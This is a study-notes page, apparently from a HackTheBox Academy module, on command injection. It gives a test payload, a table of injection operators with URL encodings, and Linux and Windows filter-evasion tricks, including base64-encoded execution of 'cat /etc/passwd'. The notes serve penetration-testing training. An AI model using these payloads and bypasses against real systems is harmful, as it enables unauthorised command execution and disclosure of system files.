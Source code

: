# Command Injection

{% stepper %}
{% step %}
<mark style="color:green;">**發現點**</mark>

`Host Checker`實用程序
{% endstep %}

{% step %}
<mark style="color:green;">**測試Payload**</mark>

```bash
ping -c 1 127.0.0.1; whoami
```
{% endstep %}

{% step %}
<mark style="color:green;">**bypass技巧**</mark>

<table data-header-hidden><thead><tr><th width="156.265625"></th><th></th><th></th><th></th></tr></thead><tbody><tr><td><strong>注入操作符</strong></td><td><strong>注塑件</strong></td><td><strong>URL 編碼字符</strong></td><td><strong>執行的命令</strong></td></tr><tr><td>分號</td><td><code>;</code></td><td><code>%3b</code></td><td>兩個都</td></tr><tr><td>新線</td><td></td><td><code>%0a</code></td><td>兩個都</td></tr><tr><td>背景</td><td><code>&#x26;</code>  <code>&#x26;</code></td><td><code>%26</code></td><td>兩者（第二個輸出通常首先顯示）</td></tr><tr><td>管道</td><td><code>|</code></td><td><code>%7c</code></td><td>兩者（僅顯示第二個輸出）</td></tr><tr><td>和</td><td><code>&#x26;&#x26;</code><br><code>&#x26;&#x26;</code></td><td><code>%26%26</code></td><td>兩者（僅當第一個成功時）</td></tr><tr><td>或者</td><td><code>||</code></td><td><code>%7c%7c</code></td><td>第二（只當第一失敗時）</td></tr><tr><td>子殼</td><td><code>``</code></td><td><code>%60%60</code></td><td>兩者（僅限 Linux）  兩名用戶（僅限 Linux）</td></tr><tr><td>子殼</td><td><code>$()</code></td><td><code>%24%28%29</code></td><td>兩者（僅限 Linux）  兩名用戶（僅限 Linux）</td></tr></tbody></table>
{% endstep %}

{% step %}
<mark style="color:green;">濫用</mark>

## Linux

### Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |

***

### Blacklisted Command Bypass

| Code                                                         | Description                         |
| ------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                      |                                     |
| `'` or `"`                                                   | Total must be even                  |
| `$@` or `\`                                                  | Linux only                          |
| **Case Manipulation**                                        |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique  |
| **Reversed Commands**                                        |                                     |
| `echo 'whoami' \| rev`                                       | Reverse a string                    |
| `$(rev<<<'imaohw')`                                          | Execute reversed command            |
| **Encoded Commands**                                         |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`             | Encode a string with base64         |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string          |

***

## Windows

### Filtered Character Bypass

| Code                    | Description                                                  |
| ----------------------- | ------------------------------------------------------------ |
| `Get-ChildItem Env:`    | Can be used to view all environment variables - (PowerShell) |
| **Spaces**              |                                                              |
| `%09`                   | Using tabs instead of spaces                                 |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD)                        |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell)                 |
| **Other Characters**    |                                                              |
| `%HOMEPATH:~0,-17%`     | Will be replaced with `\` - (CMD)                            |
| `$env:HOMEPATH[0]`      | Will be replaced with `\` - (PowerShell)                     |

***

### Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"`                                                                                                   | Total must be even                       |
| `^`                                                                                                          | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
{% endstep %}
{% endstepper %}

## <mark style="color:red;">4.Skills Assessment</mark>

[<mark style="color:red;">https://academy.hackthebox.com/module/109/section/1042</mark>](https://academy.hackthebox.com/module/109/section/1042)
